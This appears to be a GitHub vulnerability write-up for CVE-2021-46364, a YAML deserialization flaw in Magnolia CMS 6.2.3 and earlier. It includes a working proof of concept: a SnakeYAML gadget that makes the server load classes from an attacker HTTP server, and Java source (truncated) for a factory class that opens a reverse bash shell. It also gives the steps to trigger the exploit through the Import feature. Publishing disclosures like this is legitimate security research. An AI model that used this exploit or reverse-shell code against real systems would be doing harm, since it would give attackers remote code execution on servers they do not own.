


# CVE-2021-46364: YAML Deserialization in Magnolia CMS

Magnolia (versions <=6.2.3) has a Snake YAML parser which is vulnerable to deserialization attacks that can allow an attacker to call arbitrary Java constructors when importing YAML files. 
<br/>
Remote Code Execution has been achieved using this vulnerability.
<br/>

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.4.html#_security_advisory).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

The following YAML was used to trigger the deserialization:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:4444/"]
  ]]
]
```

The Java Constructors called in the YAML are responsible for performing HTTP requests to the malicious server hosted at on "http://127.0.0.1:4444/". The resources used to run Java arbitrary code are the following:
<br/>

META-INF/services/javax.script.ScriptEngineFactory:
```
artsploit.AwesomeScriptEngineFactory
```

artsploit/AwesomeScriptEngineFactory.java (needs to be compiled using "javac", and in this case the Java code sends a reverse bash shell to "127.0.0.1:5555"):
```
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.util.List;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() throws Exception {
	String host="127.0.0.1";
	int port=5555;
	String cmd="/bin/bash";
	Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
	Socket s=new Socket(host,port);
	InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
	OutputStream po=p.getOutputStream(),so=s.getOutputStream();
	while(!s.isClosed()) {
		while(pi.available()>0)
			so.write(pi.read());
		while(pe.available()>0)
			so.write(pe.read());
		while(si.available()>0)
			po.write(si.read());
		so.flush();
		po.flush();
		Thread.sleep(50);
		try {
			p.exitValue();
			break;
		}
		catch (Exception e){}
	}
	p.destroy();
	s.close();
    }

***TRUNCATED***
```

We can use any "Import" functionality that supports YAML files in Magnolia to trigger the exploit (E.g. The Import in "Pages"):



When imported, although it will result in an error, we can see below that:
- The above Java META-INF files and classes get requested from our malicious HTTP server (On the left side)
- A reverse shell connection is received back from the target (On the right side)



### Additional Resources:

More details on the artsploit's yaml-payload can be found [here](https://github.com/artsploit/yaml-payload)
